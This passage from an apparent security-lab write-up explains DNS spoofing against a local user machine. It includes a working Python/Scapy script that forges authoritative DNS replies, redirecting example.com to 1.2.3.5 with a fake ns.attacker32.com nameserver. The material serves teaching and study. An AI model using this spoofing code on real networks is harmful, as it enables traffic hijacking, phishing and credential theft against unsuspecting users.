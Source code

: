 Obviously, nobody is going to ask `ns.attacker32.com` for the IP address of `www.example.com` . When the user machine sends out a DNS query to its local DNS server, attacker can immediately send a spoofed reply, using the local DNS server to resolve the IP address of the host name. Attackers can sniff the DNS request message, they can then immediately create a fake DNS response, and send back to the user machine. If the fake reply arrives earlier than the real reply, it will be accepted by the user machine. 

**![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcJWCQ_sJHQ3cVUDjFlUkiHvpZ5X4qPcRvbWvV5hA5x8R8anJHtvtNDJIVO_RJHUa8UAr0_d6Zg4o0toVeTLcCy-8ABwoYzsYMl14a2_4Ph-lC3AMa37sNNsSKMMgXx0qRrdH9cP_g6_Oa5WXJ8ebYvQ9cA?key=QmvFcfUl2JclDTvN9GvOXzpB)**
Namely, if our attack is successful, the first `dig` command should yield a fraudulent result from the attacker rather than the legitimate response.

#### Approach

The essential part of DNS attacks is to be able to forge DNS replies, which are UDP packets. To achieve that, attackers need to know several parameters in the query, including the UDP source port number, the transaction ID of the query, the question in the query, etc. This information can be obtained from the captured query packet. Once attackers get the information, they can construct a DNS reply packet. We will use Python and Scapy to spoof DNS packets.

To achieve this, I will create a program that functions as an attacker DNS server, monitoring traffic for any user attempting to look up `www.example.com` and responding faster than the local DNS server.



```python
#!/usr/bin/env python3

from scapy.all import *
import sys

NS_NAME = "example.com"

def  spoof_dns(pkt):

	if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
		# Create an IP object
		IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst) 
		
		# Create a UDP object
		UDPpkt = UDP(dport=pkt[UDP].sport, sport=53) 
		
		# Create an answer record
		Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', rdata='1.2.3.5', ttl=259200) 
		
		# Create an answer record
		NSsec = DNSRR(rrname=NS_NAME, type='NS', rdata='ns.attacker32.com', ttl=259200) 
		
		# Create a DNS object
		DNSpkt = DNS(
					id=pkt[DNS].id,
					aa=1,
					rd=0,
					qdcount=1,
					ancount=1,
					nscount=1,
					qd=pkt[DNS].qd,
					an=Anssec,
					ns=NSsec
		          ) 
		# Assemble the spoofed DNS packet
		spoofpkt = IPpkt / UDPpkt / DNSpkt 
		send(spoofpkt)

```